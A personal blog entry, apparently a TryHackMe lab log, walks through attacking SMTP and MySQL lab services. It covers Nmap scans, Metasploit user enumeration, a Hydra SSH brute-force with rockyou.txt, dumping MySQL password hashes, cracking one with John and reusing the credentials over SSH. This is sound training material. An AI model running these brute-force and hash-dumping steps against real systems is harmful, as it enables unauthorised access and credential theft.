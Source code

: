 ```yaml
---
title: Day 17
date: 2022-04-30
layout: post.njk
tags: daily
---
```


{{ page.date.toDateString }}

I'm getting a jump on doing this today. Hopefully I can finish the whole module.

For task 2 for SMTP were going to use Metasploit to enumerate the users available on the server using the [smtp_version](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/smtp/smtp_version.md). Its my first time using Metasploit in THM so it should be interesting.


First I ran my Nmap scan:
>`nmap -sS <ip> -p 1-10000`
>
>`Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-30 12:55 BST`
>
>`Nmap scan report for <ip>.eu-west-1.compute.internal (<ip)`
>
>`Host is up (0.00058s latency).`
>
>`Not shown: 9998 closed ports`
>
>`PORT   STATE SERVICE`
>
>`22/tcp open  ssh`
>
>`25/tcp open  smtp`
>
>`MAC Address: 02:1C:AF:59:C1:05 (Unknown)`
>
>`Nmap done: 1 IP address (1 host up) scanned in 5.32 seconds`

The I ran the following commands in Metasploit:

>`msfconsole`
>
>`smtp_version`
>
>`use auxiliary/scanner/smtp/smtp_version`
>
>`set RHOSTS <ip>`
>
>`run`
>
>`[+] <ip>     - <ip>:25 SMTP 220 polosmtp.home ESMTP Postfix (Ubuntu)\x0d\x0a`
>
>`[*] <ip>      - Scanned 1 of 1 hosts (100% complete)`
>
>`[*] Auxiliary module execution completed`
>
>`search smtp_enum`
>
>`use auxiliary/scanner/smtp/smtp_enum`
>
>`set RHOSTS <ip>`
>
>`set USER_FILE /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt`
>
>`run`
>
>`[*] <ip>      - <ip>  Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)`
>
>`[+] <ip>       - <ip>  Users found: administrator`
>
>`[*] <ip>       - Scanned 1 of 1 hosts (100% complete)`
>
>`[*] Auxiliary module execution completed`

Now we know we have a user name: `administrator` on the system and we are going to use [hydra](https://www.kali.org/tools/hydra/) to brute force it.

I ran:

>`hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.221.111 ssh`

Then I ssh'ed in and got the flag!

Last one in this module: MySQL

MySQL is a Relational Database Management System (RDMS).

MySQL uses a client server model and can run on Linux and Windows.

First in the exercise it gives us the credentials `root:password`.

I run my Nmap scan:
>`nmap -sS <ip> -p 1-10000`
>
>`Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-30 13:30 BST`
>
>`Nmap scan report for <ip>.eu-west-1.compute.internal (<ip)`
>`Host is up (0.0011s latency).`
>
>`Not shown: 9998 closed ports`
>
>`PORT     STATE SERVICE`
>
>`22/tcp   open  ssh`
>
>`3306/tcp open  mysql`
>`MAC Address: 02:52:51:2B:7F:0F (Unknown)`
>
>`Nmap done: 1 IP address (1 host up) scanned in 5.50 seconds`

I verified that I could connect to MySQL using the client:
>`mysql -h <ip> -u root -p`

Then I moved into Metasploit:
>`msfconsle`
>
>`search mysql_sql`
>
>`use auxiliary/admin/mysql/mysql_sql`

I then set all the options for RHOST, USERNAME, and PASSWORD. If you run without setting the SQL option it runs `select version()`. After I ran I got results back for that and I changed SQL to `show databases` and I got back the databases on the system.
>`msf5 auxiliary(admin/mysql/mysql_sql) > run`
>
>`[*] Running module against <ip>`
>
>`[*] <ip>:3306 - Sending statement: 'show databases'...`
>`[*] <ip>:3306 -  | information_schema |`
>`[*] <ip>:3306 -  | mysql |`
>`[*] <ip>:3306 -  | performance_schema |`
>`[*] <ip>:3306 -  | sys |`
>`[*] Auxiliary module execution completed`

I then used `auxiliary/scanner/mysql/mysql_schemadump`  to dump the various table schemas and `auxiliary/scanner/mysql/mysql_hashdump` to dump the password hashes.

In the list of password hashes there was: `carl:*EA031893AA21444B170FC2162A56978B8CEECE18` so I put that in a text file called `hash.txt` and ran:
>`john hash.txt`

and got: `doggie           (carl)`

I then reused those credentials for ssh and was able to get the final flag.

This module was great just like the first one. I got exposure to a lot of tools and started to get the basics of Metasploit down. I think Metasploit is kind of looked down upon because it kind of a crutch and does a lot of work for you without understanding what is going on. For now though Its helpful to use.

I think one of the big things I learned from these is that an attack path involves pivots from one service to another. You may exploit some service that gives you some info that you use with another service, which leads you to more info and maybe the ability to gain a shell.

Here a couple extra links for more reading:
[VPN exploits](https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/)
[Common Exploits](https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-exploits.html)